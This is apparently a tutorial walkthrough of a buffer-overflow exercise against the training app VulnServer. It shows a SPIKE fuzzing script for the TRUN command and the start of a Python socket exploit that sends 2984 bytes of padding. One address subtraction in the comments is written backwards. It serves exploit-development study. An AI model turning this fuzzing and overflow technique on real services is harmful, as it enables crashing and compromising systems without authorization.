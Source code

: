 ```yaml
---
description: 'resource: https://samsclass.info/127/proj/p16-spike.htm'
---
```


# Buffer Overflow - VulnServer Full Walkthrough

```bash
s_readline();
s_string("TRUN ");
s_string_variable("COMMAND");
```

## Step 1

Create a .spk script to fuzz the app and crash it.

{% code title="fuzzer.spk" overflow="wrap" lineNumbers="true" %}
```bash
# to read each line of code.
s_readline();
s_string("TRUN "); 
# represent the value of the fuzz data we are sending.
s_string_variable("FUZZ");

# make sure Immunity Debugger is running the VulnServer app.
generic_send_tcp $ip 9999 fuzzer.spk 0 0 # fuzzing the vulnserver app.
# the program crashes (we get an access violation while executing 41414141).

# the 41414141 denotes "AAAA", but at what point or which AAAA index did the program break? What we can do 1st is to know how many A's our fuzzer.spk script sent that crashed the app. How do we do this? In the Register Panel we see the [ESP] value, right click on it, click "follow in dump",
# In the 3rd Panel, we can see where the "/AAAAAA" starts and scrolling down to see where it ends. So we just subtract the start and end addresses with python to get total number of A's sent, for example:
>>> 0x00DDF1F0 - 0x00DDFD98 # in this case 2984
```
{% endcode %}

## Step 2

Generate our own python script to crash the program instead of using spk.

Make sure app is running before executing the script.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/python
import socket

# 1 - we establish a connection to the victim pc.
s = socket.socket()
s.connect(("$ip", 9999))

total_length = 2984 # 2 - we will be working with this value.

# 3 - we use a list to orderly arrange each parts of our payload.
# 4 - in python3, when we are communicating with a socket, we have to send all the data in bytes ie, <b"">
payload = [
    b"TRUN /.:/", # 5 - copy the exact value used by .spk script (in the 2nd Panel).
    b"A" * total_length # 6 - sends 2984 A's to the vulnserver app.
]
# 7 - putting together our payload/
```